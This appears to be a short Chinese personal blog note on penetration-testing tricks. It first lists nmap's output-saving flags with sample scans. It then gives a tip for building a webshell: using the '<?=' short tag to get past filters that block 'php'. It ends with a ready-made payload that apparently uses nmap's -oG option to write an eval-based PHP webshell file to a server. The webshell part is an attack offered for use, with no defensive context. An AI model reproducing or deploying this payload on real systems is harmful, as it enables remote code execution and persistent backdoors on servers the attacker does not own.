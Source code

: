 ```yaml
---
title: 随笔小记
date: 2020-09-25 07:55:27
tags:
---
```


## 记nmap使用的几个小点

```
-oN 标准保存
-oX XML保存
-oG Grep保存  nmap -F -oG test.txt 192.168.23.1 以标准格式、XML格式和Grep格式一次性保存，分别放在.nmap，.xml和.gnmap文件中。
-oA 保存到所有格式  nmap -F -oA test 192.168.3.2
-append-output 补充保存文件
```

## 构造webshell时的小点

```
当php，三个字被过滤时，可以使用短符号
<?=来代替<?php进行绕过
```

`' <?= @eval($_POST["cmd"]);?>` -oG shell.phtml '